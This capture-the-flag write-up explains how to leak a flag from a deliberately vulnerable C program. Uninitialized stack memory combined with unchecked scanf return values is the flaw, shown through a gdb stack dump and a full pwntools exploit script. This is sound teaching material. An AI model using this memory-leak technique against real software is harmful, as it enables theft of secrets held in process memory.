 # Enough With the Averages -- Solution

The simple binary allows the user to enter some number of integers and proceeds to calculate their average. The flag is read from the file when the program starts, but there seems to be no direct way to access it, or to subvert the program execution. 

```c
void read_flag() {
  FILE* in;
  char flag[64];
  in = fopen("flag.txt", "rt");
  fscanf(in, "%s", flag);
  fclose(in);
}

void vuln() {
  int score[20];
  int total = 0;  
  for (int i=0; i<20; i++) {
    printf("Enter score for player %d:\n", i);
    scanf("%d", &score[i]);
    total += score[i];
  }
  printf("Average score is %lf.\n", total/20.);
  printf("Type q to quit.");
  while (getchar() != 'q');
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  read_flag();
  vuln();
  return 0;
}
```

Examination of the source code reveals an issue we can take advantage of: the local variable `score` in `vuln` is uninitialized. It turns out that, since the `read_flag` is called immediately before `vuln`, storage for the local variables of `vuln` (i.e., `score`) will overlap with the storage for the local variables of `read_flag` (i.e., `flag`). 

Examination with the debugger confirms this to be the case. If we run the program, enter `-1` as the first score, and examine the stack frame, we discover that the storage for the local variable `score` starts at the offset 0x10 from the stack top, and the flag is still on the stack (starting from offset 0x20) and, therefore, overlaps with the variable `score`.

```bash
$ echo -1 | gdb ./chall -ex 'b *(vuln+98)' -ex 'run' -ex 'telescope $rsp -l 0x10'
0x007ffdaa048450│+0x0000: 0x00561be8c00800  →  <_start+0> xor ebp, ebp	 ← $rsp
0x007ffdaa048458│+0x0008: 0x0000000000000000
0x007ffdaa048460│+0x0010: 0x00000000ffffffff
0x007ffdaa048468│+0x0018: 0x00561be8e02260  →  0x0000000000000000
0x007ffdaa048470│+0x0020: "TBTL{e4t_Y0ur_vegG13s_1n1714l1z3_y0ur_d4rn_v4r14bl[...]"
0x007ffdaa048478│+0x0028: "_Y0ur_vegG13s_1n1714l1z3_y0ur_d4rn_v4r14bl35}"
0x007ffdaa048480│+0x0030: "gG13s_1n1714l1z3_y0ur_d4rn_v4r14bl35}"
0x007ffdaa048488│+0x0038: "1714l1z3_y0ur_d4rn_v4r14bl35}"
0x007ffdaa048490│+0x0040: "_y0ur_d4rn_v4r14bl35}"
0x007ffdaa048498│+0x0048: "rn_v4r14bl35}"
0x007ffdaa0484a0│+0x0050: 0x00007d35336c62 ("bl35}"?)
0x007ffdaa0484a8│+0x0058: 0x0000000000000000
0x007ffdaa0484b0│+0x0060: 0x007ffdaa0484d0  →  0x00561be8c00a90  →  <__libc_csu_init+0> push r15
0x007ffdaa0484b8│+0x0068: 0x1997755a578d2200
0x007ffdaa0484c0│+0x0070: 0x007ffdaa0484d0  →  0x00561be8c00a90  →  <__libc_csu_init+0> push r15	 ← $rbp
0x007ffdaa0484c8│+0x0078: 0x00561be8c00a84  →  <main+64> mov eax, 0x0
```

The program does't check the return value of `scanf` --- if we give it an input which is not an integer, `scanf("%d", &score[i]);` will just leave `score[i]` unchanged. Furthermore, all subsequent `scanf` calls will do the same. 

Hence, running the program with `k` integers as input (followed by a non-integer token) will give you an average of input integers and the integers corresponding to flag bytes starting from `score[k]`. If we run the program twice --- giving it `k` zeroes the first time and `k+1` zeroes the second time --- we can subtract the two averages and obtain the exact bytes of uninitialized `score[k]`. Hence, we can leak the flag (four bytes at the time) by running the program multiple times.

Putting it all together:
```python
#!/usr/bin/env python3

from pwn import *

def conn():
    context.update(arch='amd64', os='linux', terminal=['tmux', 'new-window'])
    if args.REMOTE:
        p = remote('localhost', 3000)
    else:
        p = process('./chall')
        gdb.attach(p, '''
            b *(vuln+459)
            continue
        ''')
    return p

def get(k):
    p = conn()
    for _ in range(k):
        p.sendlineafter(b':', b'0')
    p.sendlineafter(b':', b'n')
    p.recvuntil(b'Average score is')
    average = float(p.recvuntil(b'\n')[:-2])
    p.sendlineafter(b'quit', b'q')
    return int(average*20)

last = 0
flag = b''
for i in range(20):
    curr = get(i)
    diff = last-curr
    diff = (diff + 2**32)%(2**32)
    bytes = pack(diff, word_size=32, sign=False)
    if i >= 5:
        flag += bytes
    last = curr

print(flag)
```